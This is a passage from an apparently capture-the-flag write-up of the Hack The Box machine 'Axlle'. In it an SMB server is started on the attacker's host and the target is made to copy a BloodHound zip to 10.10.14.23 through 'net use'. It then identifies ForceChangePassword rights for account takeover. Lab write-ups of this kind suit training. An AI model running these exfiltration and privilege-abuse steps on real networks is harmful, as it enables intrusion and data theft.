 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-11.png)

Let's download the created zip file.

We will first start impacket-smbserver:

`impacket-smbserver share $(pwd) -smb2support`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-12.png)

Use `net use` command to transfer the zip file to local kali machine:

```
net use * \\10.10.14.23\share
copy 20240626183912_BloodHound.zip Z:
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-13.png)

After opening the zip file through bloodhound, we can see that user dallon has **forcechangepassword** right for user jacob and baz. 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-14.png)
